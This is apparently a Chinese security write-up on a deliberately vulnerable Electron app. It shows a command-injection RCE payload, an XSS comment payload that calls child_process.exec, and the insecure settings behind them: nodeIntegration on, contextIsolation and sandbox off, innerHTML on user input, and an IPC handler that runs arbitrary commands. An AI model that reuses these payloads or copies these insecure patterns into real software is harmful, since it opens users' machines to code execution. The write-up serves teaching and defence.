   
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4Rywy3tq6Qfj2OZhOQJVvticKe8B4SLP0hRXd0psxQhrbwVHwgUzc67wQxlt2D4hexNG3LA85vAQsag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4Rywy3tq6Qfj2OZhOQJVvticKAQnicQD2EDCX6ibacWx9DibLLsVm8N0r1mg2JOXuCMYjUwqB6e3D5vlhA/640?wx_fmt=png&from=appmsg "")  
  
攻击场景二：远程代码执行(RCE)  

```
在命令执行框中输入恶意命令：
# Windows
calc.exe && echo &#34;系统被入侵&#34; > C:\hacked.txt


# macOS/Linux
open -a Calculator && echo &#34;系统被入侵&#34; > ~/hacked.txt


点击&#34;执行命令&#34;，系统将启动计算器并创建被入侵标记文件
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4Rywy3tq6Qfj2OZhOQJVvticKeS64G7oyfVmHzfD5bZuFdILtzG24D5X1uo4RlTiaMEzicBKA7oYZT7aA/640?wx_fmt=png&from=appmsg "")  
  
攻击场景三：组合攻击(通过评论触发 RCE)  

```
构造恶意评论执行系统命令：
<img src=x onerror=&#34;require('child_process').exec('calc.exe')&#34;>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4Rywy3tq6Qfj2OZhOQJVvticK5m1M5Uu1rtibbAYn3hwdlW2qqDNSnOwn4YLjLXvTQ1icN18JZjzqA5iag/640?wx_fmt=png&from=appmsg "")  
  
漏洞原理分析：  
  
1.危险配置  

```
webPreferences: {
  nodeIntegration: true,   // 允许渲染进程直接访问Node.js
  contextIsolation: false, // 禁用上下文隔离
  sandbox: false           // 禁用沙箱
}
```

  
这些配置使得渲染进程可以完全访问Node.js环境  
  
2.不安全的HTML渲染  

```
document.getElementById('comment-preview').innerHTML = comment;
```

  
直接使用innerHTML插入未过滤的用户输入，导致XSS漏洞  
  
3.不安全的IPC通信  

```
ipcMain.on('execute-command', (event, command) => {
  require('child_process').exec(command);
});
```

